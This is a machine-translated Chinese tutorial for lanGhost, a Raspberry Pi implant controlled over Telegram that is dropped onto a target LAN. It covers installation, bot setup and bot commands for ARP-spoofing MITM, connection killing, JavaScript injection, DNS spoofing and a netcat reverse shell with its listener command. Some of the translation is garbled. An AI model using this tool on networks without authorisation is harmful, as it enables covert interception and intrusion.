



# LANGhost:一个可以通过电报控制的 LAN Dropbox 聊天机器人

> 原文：<https://kalilinuxtutorials.com/langhost/>

LANGhost 是为**Raspberry Pis**(**Raspbian**/**Kali 为 RPi** )设计的。在其他/desktop 发行版上运行它可能会导致问题，并且可能无法正常工作。

你需要在 SD 卡上有一个**树莓酱**和**新鲜的 Raspbian/Kali** ，因为你不希望其他东西在后台运行。

启动 Pi，获得 SSH sell 或连接显示器和键盘，并输入以下命令:

**也可阅读-[flash sploit:基于 ATtiny85 的 HID 攻击的利用框架](https://kalilinuxtutorials.com/flashsploit/)**

**$ sudo apt 更新& & sudo apt 安装 python3 python3-pip
$ git 克隆 https://github.com/xdavidhu/lanGhost
$ CD lanGhost
$ sudo。/setup.py**

运行设置脚本时，请**阅读**问题/消息！

**第 1/4 步–setup . py**

[+]请输入连接/将要连接到目标 LAN 的网络接口的名称。在大多数系统上，默认有线接口是“eth0”，默认无线接口是“wlan0”，但您可以在不同的终端中使用“ifconfig”命令检查它。

**第 2/4 步–setup . py**

[+]请通过命令“/newbot”在电报上发送消息@BotFather 来创建电报 API 密钥。

在这之后，@BotFather 会要求你为你的 bot 选择一个名字。这可以是你想要的任何东西。

最后，@BotFather 会问你要你的机器人的用户名。您必须在此选择一个以“bot”结尾的唯一用户名。比如:xdavidbot。记下这个用户名，因为稍后您将不得不搜索它来找到您的 bot，lanGhost 将在它上面运行。

将您的用户名 choise 发送到@BotFather 后，您将收到您的 API 密钥。

**第 3/4 步–setup . py**

[+]现在 lanGhost 只允许你访问，你需要验证你自己。

将下面的验证码发送给刚刚创建的 BOT。只需搜索你的 bot 的@username(你发给@BotFather 的)就能找到。

[+]验证码发送:* * * * * * *

**步骤 4/4–setup . py**

[+]您希望 lanGhost 在引导时启动吗？如果您将此设备用作 dropbox，则此选项是必需的，因为当您将此设备放入网络时，您将没有机会远程启动 lanGhost！(自动启动通过添加新的 cron '@reboot '条目来工作)

如果您已经准备好安装，只需重新启动 Pi，lanGhost 就会立即启动！

**用途**

**警告:**不建议在大于/24 的网络上使用 lanGhost**，因为扫描时间太长。**

 **lanGhost 是**不安静**。任何监控流量的人都可以看到 ARP 数据包！

将其放入网络:

如果您在`step 4/4 (autostart)`选择了`yes`，Pi 将完全设置为下降。lanGhost 应该在启动时启动，并通过电报向您发送一条消息，文本为:`lanGhost started! 👻`。

请确保先在您的实验室中试用，并测试 lanGhost 是否会对您的消息做出响应！

如果一切就绪，只需将以太网电缆插入 Pi 并通过 micro USB 连接电源，就可以将它连接到目标网络了！

(lanGhost 也可以通过 WiFi 工作，但你需要先设置`wpa_supplicant`自动连接网络)

**可用命令:**

/Scan–扫描局域网
/scanip[TARGET-ip]–扫描特定的 IP 地址。
/kill[TARGET-IP]–停止目标的网络连接。
/mitm[TARGET-IP]–从目标捕获 HTTP/DNS 流量。
/Replace img[TARGET-IP]–替换目标请求的 HTTP 图像。
/Inject JS[TARGET-IP][JS-FILE-URL]–将 JavaScript 注入目标请求的 HTTP 页面。
/spooft dns[TARGET-IP][DOMAIN][FAKE-IP]–欺骗目标的 DNS 记录。
/attacks–查看当前正在运行的攻击。
/Stop[ATTACK-ID]–停止当前正在运行的攻击。
/Restart–重新启动 lanGhost。
/reverse sh[TARGET-IP][PORT]–创建一个 netcat 反向 shell 到目标。
/help–显示帮助菜单。
/乒乓。

### 攻击系统:

您可以使用以下命令之一发起攻击:`**/kill, /mitm, /replaceimg, /injectjs, /spoofdns**`

在你运行了一个或多个攻击之后，你可以使用`**/attack**`命令来获得一个包含`**ATTACK-ID**` **的**的列表。

要停止攻击，请键入`**/stop [ATTACK-ID]**`。

**反壳:**

**警告:** `**/reversesh**`只做一个不加密的 netcat TCP 连接，所有流量都可以监控！仅用于紧急修复或在必要时建立加密反向连接。

`**/reversesh**`命令用于在 Pi 上获得一个反向外壳，当它不能从外部访问时。

要使用`**/reversesh**`命令，您需要有一个监听 shell 的服务器。

在服务器上启动监听器的 Netcat 命令:

**$ nc -l 0.0.0.0【端口】**

电报命令:

**/reversesh[您的监听服务器的 IP][端口]**

**攻击:**

*   `**/kill**`–停止目标的互联网连接。
*   `**/mitm**`–捕获来自目标的 HTTP 和 DNS 流量，并通过文本消息发送。
*   `**/replaceimg**`–将目标的 HTTP 图像替换为发送给机器人的图片。
*   `**/injectjs**`–将 JavaScript 注入目标的每个 HTTP HTML 响应中。您需要在服务器上托管 JS 文件，并将 URL 作为参数给出。
*   `**/spoofdns**`–欺骗目标的 DNS 响应。

所有攻击都使用 **ARP 欺骗**！

**扫描:**

*   `**/scan**`–扫描本地网络并使主机恢复在线。使用`nmap -sn`扫描来发现主机。
*   `**/scanip**`–扫描 IP 地址中开放的端口和其他信息。使用`nmap -sS`扫描。

**通知:**

每次新设备连接/离开网络时，您都会收到一条消息。

**免责声明**

我不对你用这个程序做的任何事情负责，所以请只把它用在好的和教育目的上。

[**Download**](https://github.com/xdavidhu/lanGhost)**